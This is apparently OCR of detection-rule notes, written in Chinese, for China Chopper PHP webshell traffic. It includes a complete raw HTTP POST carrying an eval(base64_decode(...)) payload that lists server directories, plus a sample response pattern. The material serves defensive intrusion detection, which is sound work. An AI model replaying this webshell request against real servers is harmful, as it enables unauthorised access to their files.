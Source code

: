 ### webshell_caidao_php
    匹配菜刀最常见的特征base64_decode
    POST /upload/1.php HTTP/1.1\r\nUser-Agent: Java/1.8.0_151\r\nHost: xxxxxxx\r\nAccept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2\r
    \nConnection: keep-alive\r\nContent-type: application/x-www-form-urlencoded\r\nContent-Length: 725\r\n\r\naa=@eval.   (base64_decode($_POST[action]));&action=QGluaV9zZXQoImR   pc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JEY9QG9wZW5kaXIoJEQ     pO2lmKCRGPT1OVUxMKXtlY2hvKCJFUlJPUjovLyBQYXRoIE5vdCBGb3VuZCBPciBObyBQZXJtaXNzaW9uISIpO31lbHNleyRNPU5VTEw7JEw9TlVMTDt3aGlsZSgkTj1AcmVhZGRpcigkRikpeyRQPSRELiIvIi4kTjskVD1AZGF0ZSgiWS1tLWQgSDppOnMiLEBmaWxlbXRpbWUoJFApKTtAJEU9c3Vic3RyKGJhc2VfY29udmVydChAZmlsZXBlcm1zKCRQKSwxMCw4KSwtNCk7JFI9Ilx0Ii4kVC4iXHQiLkBmaWxlc2l6ZSgkUCkuIlx0Ii4kRS4iCiI7aWYoQGlzX2RpcigkUCkpJE0uPSROLiIvIi4kUjtlbHNlICRMLj0kTi4kUjt9ZWNobyAkTS4kTDtAY2xvc2VkaXIoJEYpO307ZWNobygifDwtIik7ZGllKCk7&z1=RDpcd2FtcDY0XHd3d1x1cGxvYWQ%3D

### 可疑的caidao响应-列目录 
    通过正则表达式匹配http响应里列目录操作,排除掉html标签避免误报
    ->|1.jsp.2018-10-14 12:21:12.2129.R W
    |<-
